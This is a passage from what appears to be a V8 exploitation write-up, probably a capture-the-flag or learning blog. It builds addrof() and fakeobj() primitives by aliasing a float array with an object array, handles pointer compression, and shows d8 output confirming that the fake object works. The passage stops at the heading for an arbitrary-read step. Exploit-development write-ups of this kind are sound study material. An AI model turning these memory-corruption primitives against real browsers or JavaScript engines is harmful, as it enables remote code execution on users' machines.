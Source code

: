 And bam, we have an `addrof()` primitive. Time to get a `fakeobj()`.

## A new fakeobj()

If we follow the same principle for `fakeobj()` :

```javascript
function fakeobj(compressed_addr) {
    float_arr[12] = itof(compressed_addr);
    return obj_arr[0];
}
```

However, remember that pointer compression is a thing! We have to make sure the upper 4 bytes are consistent. This isn't too bad, as we can read it once and remember it for all future sets:

```javascript
// store upper 4 bytes of leak
let upper = ftoi(float_arr[12]) & (0xffffffffn << 32n);
```

And then `fakeobj()` becomes

```javascript
function fakeobj(compressed_addr) {
    float_arr[12] = itof(upper + compressed_addr);
    return obj_arr[0];
}
```

We can test this with the following code:

```javascript
// first leak the address
let addr_initial = addrof(initial_obj);
// now try and create an object from it
let fake = fakeobj(addr_initial);
// fake should now be pointing to initial_obj
// meaning fake.a should be 1
console.log(fake.a);
```

If I run this, it does in fact print `1`:

```javascript
gef➤  run --allow-natives-syntax --shell exploit.js
1
V8 version 9.1.0 (candidate)
d8> 
```

{% hint style="info" %}
I was as impressed as anybody that this actually worked, I can't lie.
{% endhint %}

## Arbitrary Read
